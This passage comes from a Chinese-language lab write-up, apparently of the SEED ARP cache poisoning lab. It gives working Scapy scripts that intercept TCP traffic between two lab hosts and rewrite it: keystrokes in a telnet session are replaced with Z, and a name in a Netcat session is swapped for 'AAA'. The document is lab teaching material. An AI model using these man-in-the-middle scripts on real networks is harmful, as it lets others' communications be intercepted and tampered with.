 ```python
	################################################################
	elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A and pkt[Ether].dst == MAC_M:
		# Create new packet based on the captured one
		# Do not make any change
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)
f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

从A上启动一个telnet连接到B，然后在M上启动脚本，发现无论输入什么字符，都会被替换回Z，即使是回车、退格等。

![image-20220406172344239](ARP Cache Poisoning.assets/image-20220406172344239.png)

![image-20220406172115044](ARP Cache Poisoning.assets/image-20220406172115044.png)

## Task 3: MITM Attack on Netcat using ARP Cache Poisoning

与Task2相差不大，只需要将名字替换为相同长度的A。

```python
#!/usr/bin/env python3
from scapy.all import *
IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"
MAC_M = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
	if pkt[IP].src == IP_A and pkt[IP].dst == IP_B and pkt[Ether].dst == MAC_M:
	# Create a new packet based on the captured one.
	# 1) We need to delete the checksum in the IP & TCP headers,
	# because our modification will make them invalid.
	# Scapy will recalculate them if these fields are missing.
	# 2) We also delete the original TCP payload.
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)
		#################################################################
		# Construct the new payload based on the old payload.
		# Students need to implement this part.
		if pkt[TCP].payload:
			data = pkt[TCP].payload.load # The original payload data
			newdata = data.replace(str.encode("hqy"), str.encode("AAA"))
			send(newpkt/newdata)
		else:
			send(newpkt)
	################################################################
	elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A and pkt[Ether].dst == MAC_M:
		# Create new packet based on the captured one
		# Do not make any change
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)
f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```
